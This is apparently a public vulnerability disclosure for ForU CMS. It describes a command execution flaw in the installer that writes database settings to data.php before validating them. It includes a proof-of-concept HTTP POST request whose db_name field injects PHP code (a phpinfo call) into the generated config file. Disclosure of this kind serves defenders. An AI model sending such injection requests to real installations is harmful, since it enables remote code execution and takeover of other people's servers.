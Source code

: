ForU CMS install.php command execution vulnerability

downlaod:https://gitee.com/sw1981/ForU-CMS

version:dev Official version

There is a logical defect in writing files to data.php before performing database judgment
![微信图片_20230912224714](https://github.com/Fovker8/cve/assets/97042667/bb19d2e8-ab8b-4c95-b5ab-ec877cc741c0)

poc
```
POST /install/index.php HTTP/1.1
Host: www.forucms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 160
Origin: http://www.forucms.com
Connection: close
Referer: http://www.forucms.com/install/index.php
Cookie: PHPSESSID=8qv3um38h8smqsghf9hibmu7c7; cms[url_back]=http%3A%2F%2Fwww.forucms.com%2Findex.php
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 1.1.1.1
X-Originating-IP: 1.1.1.1
X-Remote-IP: 1.1.1.1
X-Remote-Addr: 1.1.1.1

db_host=127.0.0.1&db_name=%27%29%3Bphpinfo%28%29%3B%2F%2F&db_username=1&db_password=1&admin_id=admin&admin_password=admin&db_prefix=cms_&save=%E5%AE%89%E8%A3%85
```
![2](https://github.com/Fovker8/cve/assets/97042667/2ca16034-6a93-4252-aeb6-641ae11b1ab9)

![3](https://github.com/Fovker8/cve/assets/97042667/5b449ac7-480f-460d-80c2-f3544c41e986)
